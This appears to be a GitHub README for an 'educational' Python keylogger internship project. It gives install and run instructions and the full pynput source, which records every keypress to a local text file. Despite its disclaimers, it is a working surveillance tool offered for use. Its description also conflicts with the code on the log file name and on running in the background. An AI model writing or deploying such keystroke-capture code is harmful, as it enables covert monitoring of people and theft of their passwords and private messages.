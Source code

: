 # Keylogger Program 

## Project Overview
This is a basic **Keylogger** program developed for educational purposes as part of an internship project. The program records and logs keystrokes pressed by the user and saves them into a file for review.

> **Note**: This program is intended strictly for **ethical and authorized use**. Always ensure proper permissions and legal compliance before deploying such tools.


## Features
- Logs keystrokes from the user.
- Saves recorded keys to a text file.
- Simple implementation for educational purposes.


## How It Works
1. The program listens for keystroke events on the system.
2. Each pressed key is recorded and logged in a text file (`keylog.txt`).
3. The program runs in the background to continuously monitor keypresses.


## Prerequisites
- Python 3.x installed on your system.
- Required Python libraries:
  - `pynput` (install using `pip install pynput`).


## Installation and Usage
1. Clone or download this repository to your local machine.
2. Install the required library by running:
   ```bash
   pip install pynput
   ```
3. Run the program:
   ```bash
   python keylogger.py
   ```
4. The program will start logging keystrokes and save them to a file named `keylog.txt`.


## Ethical Considerations
This keylogger is created for **educational purposes only**. Unauthorized use of keyloggers is illegal and unethical. Always obtain **explicit consent** before deploying this program.


## Disclaimer
The author is not responsible for any misuse of this program. Ensure that you use it only in environments where you have proper authorization.


## License
This project is open-source and intended for learning and ethical use.

### **Code**  

Here is the Python code for the Simple Keylogger:
```
from pynput.keyboard import Key, Listener

# Path to the log file
log_file = "keylogger.txt"

def log_key(key):
    try:
        with open(log_file, "a") as file:
            file.write(key.char)
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')

def stop_listener(key):
    if key == Key.esc:
        # Stop listener
        return False

# Start the listener
with Listener(on_press=log_key, on_release=stop_listener) as listener:
    listener.join()
